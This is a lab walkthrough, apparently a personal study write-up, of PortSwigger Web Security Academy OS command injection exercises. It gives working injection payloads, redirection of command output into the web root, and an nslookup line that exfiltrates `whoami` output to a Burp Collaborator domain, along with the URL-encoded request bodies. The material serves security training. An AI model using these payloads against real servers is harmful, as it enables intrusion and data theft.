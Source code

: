 ## OS command injection vulnerabilities



[TOC]

## Table of Contents

- [OS command injection, simple case](#os-command-injection-simple-case)



## OS command injection, simple case

Goal : execute the `whoami` command to determine the name of the current user.

- intercept and modify a request that checks the stock level.
- append `|whoami` or `;whoami` to the `storeId` parameter 
- you can use this also`productId=1%26+whoami+%23&storeId=1` it's encoded with URL encoding (`productId=1& whoami #&storeId=1`)
- check the name in the response
- (https://portswigger.net/web-security/os-command-injection/lab-simple)



<img src=".\command_injection_img\1_1.png" style="zoom:80%;" />





------







### [Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

Goal : exploit the blind OS command injection vulnerability to cause a 10 second delay.

- go to `submit feedback`

- I tried a lot of payloads in different parameters and finally these payloads solved the lab
  ```
  karim&`ping -c 10 127.0.0.1`#&
  OR
  karim&`sleep 10`#&
  ```

- put any one in the name or email parameter and send the request







------



### [Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

Goal : execute the `whoami` command and retrieve the output.

- go to `submit feedback`

- write the payload from previous lab `%26+sleep+10+%23+` (`& sleep 10 # `) in the email parameter

- notice that it takes 10 seconds to respond , so this parameter is vulnerable

- append the payload to email parameter with URL encoding
  ```
  & whoami > /var/www/images/whoami.txt #
  ```

- open any image in new tab , replace its name with whoami.txt



![](.\command_injection_img\2_1.png)





------





### [Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

Goal :  exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

- go to `submit feedback`

- submit any values

- from `Burp collaborator client `  click `copy to clipboard` 

- send this request `POST /feedback/submit ` to burp repeater

- add the payload to the email parameter (we know that is the vulnerable parameter from the previous labs)
  ```bash
  &nslookup <your_own>.burpcollaborator.net #&
  ```

- but encode it with URL encoding

- the request body will look like this
  ```bash
  csrf=UfTw8aBwMGPhF6MGrJy2VBawdAB06GQ5&name=karim&email=123%40gmail.com%26nslookup%20y21kg9ifjgutl206yib4mhvtrkxdl2.burpcollaborator.net%20%23&subject=123&message=123
  ```

  <img src=".\command_injection_img\3_1.png" style="zoom:80%;" />

- send the request

- if you go to `Burp collaborator client` and click pull now , you will see the DNS request to our domain

<img src=".\command_injection_img\3_2.png" style="zoom:80%;" />



------





### [Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

Goal : execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. 

- go to `submit feedback`

- submit any values

- from `Burp collaborator client `  click `copy to clipboard` 

- send this request `POST /feedback/submit ` to burp repeater

- add the payload to the email parameter (we know that is the vulnerable parameter from the previous labs)

  ```bash
  & nslookup `whoami`.79etnipoqp12sb7f5ridtq22yt4nsc.burpcollaborator.net #&
  ```

- but encode it with URL encoding

- the request body will look like this
  ```bash
  csrf=5mJNRXmKKLVevRpFlC9NqvcKUm5LwMJH&name=karim&email=123%40g.com%26%20nslookup%20%60whoami%60.79etnipoqp12sb7f5ridtq22yt4nsc.burpcollaborator.net%20%23&subject=123&message=123
  ```

- send the request

- if you go to `Burp collaborator client` and click pull now , you will see the DNS request to our domain



<img src=".\command_injection_img\4_1.png" style="zoom:80%;" />







------




